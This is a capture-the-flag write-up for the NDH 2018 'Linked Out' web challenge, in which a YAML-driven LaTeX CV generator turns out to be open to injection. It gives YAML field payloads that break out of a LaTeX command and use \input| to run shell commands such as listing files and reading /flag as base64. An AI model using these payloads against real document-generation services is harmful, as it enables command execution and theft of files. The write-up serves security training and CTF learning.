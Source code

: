 ```yaml
---
title: Quals NDH 2018 - Linked Out
authors: cnotin
layout: writeup
---
```

Solves: 58 / Points: 300 / Category: Web
## Challenge description
> This service build an awesome curriculum vitae for you ! Test it, recruiters will enjoy it ! The developper of this chall too ;)

We have a "Curriculum Vitæ Generator" website where we can upload a little form in YAML format with all the required information.
Once the form is uploaded, a very nice resume is generated in PDF format with the provided information.

The website explains that tool it uses is *[posquit0's Awesome-CV](https://github.com/posquit0/Awesome-CV)*.

## Challenge resolution
### LaTeX injection
Here is the beginning of the sample YAML file:
```yaml
cv:
  personal_informations:
    firstname: Bruce
    lastname: Schneier
    address: 221b Baker Street, London, ENGLAND
    position: Security Expert ; Master of Internet
  contacts:
    mobile: +12 3 456 789 012
    email: bruce.schneier@it-is-not-my-real-email.com
    homepage: https://www.schneier.com/
    github: schneier-not-my-real-account
    gitlab: schneier-not-my-real-account
    linkedin: schneier-not-my-real-account
    twitter: schneierblog
    skype: schneier-not-my-real-account
    reddit: schneier-not-my-real-account
    xing: schneier-not-my-real-account
  misc:
    extrainfo: Buy one of my books!
    quote: '"Bruce Schneier knows your password before you do." --- https://www.schneierfacts.com'
[...]
```

We know that the used tool is based on LaTeX. It expects a `.tex` file with information in the following format:
```tex
\twitter{@twit}
\skype{skype-id}
\reddit{reddit-id}
\extrainfo{extra informations}
[...]
```

Our first intuition is that our inputs are simply inserted in the `.tex` file. So we could inject arbitrary LaTeX instructions.
Let's verify by trying to close an instruction then re-open it:
```yaml
    skype: BBBBBBBBBBBBBB}\skype{AAAAAAAAAA
```

The injection is successful since the generated PDF returns `AAAAAAAAAA` in the Skype field instead of `BBBBBBBBBBBBBB`:
![Linked Out injection](/assets/linkedout-injection.png){: .image }

### LaTeX injection to command execution
So we can inject LaTeX instructions: now, how to obtain the flag?
We remembered [articles about code injection in LaTeX files](https://0day.work/hacking-with-latex/). There are some prerequisites but we might get lucky.

We found a [Stack Exchange answer](https://tex.stackexchange.com/a/20566) sharing a nice compact syntax to execute shell commands and include the output in the document. Let's try it:
```yaml
    skype: BBBBBBBBBBBBBB}\skype{\input|"ls *"}%
```
It was indeed successful:
![Linked Out ls command](/assets/linkedout-command-ls.png){: .image }

### Get the flag
Extracting the flag with a `cat` command did not work. We thought that its content could create an invalid `.tex` file.
Therefore we used `base64` to obtain it encoded.
```yaml
  skype: BBBBBBBBBBBBBB}\skype{\input|"base64 /flag"}%
```
![Linked Out base64 flag](/assets/linkedout-flag-b64.png){: .image }

Decode it and get the flag:
```shell
$ echo -ne "TkRIe0FuZF9Eb25hbGRfS251dGhfY3JlYXRlZF90aGVfaVRlWH0K" | base64 -d  -
NDH{And_Donald_Knuth_created_the_iTeX}
```
